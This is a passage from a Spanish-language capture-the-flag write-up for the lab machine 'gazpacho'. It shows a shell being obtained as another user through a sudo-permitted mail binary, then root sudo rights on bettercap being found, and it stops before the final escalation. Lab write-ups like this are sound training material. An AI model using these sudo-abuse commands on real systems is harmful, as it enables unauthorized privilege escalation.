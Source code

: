 Ocuparemos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-gazpacho/Captura16.png">
</p>

Probémoslo:
```bash
pepino@gazpacho:~$ sudo -u tomate mail --exec='!/bin/bash'
tomate@gazpacho:/home/pepino$ whoami
tomate
tomate@gazpacho:/home/pepino$ cd ../tomate/
tomate@gazpacho:~$
```
Ahora somos el **usuario tomate**.

Aquí encontraremos la flag del usuario, pero no la podremos ver, pues solo el **Root** puede verla:
```bash
-rw-r--r-- 1 tomate tomate  807 abr 23  2023 .profile
-r-------- 1 root   root     33 abr 29  2024 user.txt
```

<br>

<h2 id="bettercap">Abusando de Privilegios Sobre Binario bettercap para Escalar Privilegios y Convertirnos en Usuario root</h2>

Directamente, veamos qué privilegios tiene este usuario:
```bash
tomate@gazpacho:~$ sudo -l
Matching Defaults entries for tomate on gazpacho:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User tomate may run the following commands on gazpacho:
    (root) NOPASSWD: /usr/bin/bettercap
```
Podemos usar el **binario bettercap** como el **usuario Root**.

Es el mismo binario que ya habíamos encontrado y que podemos ver su ruta:
```bash
tomate@gazpacho:~$ which bettercap
/usr/bin/bettercap
```
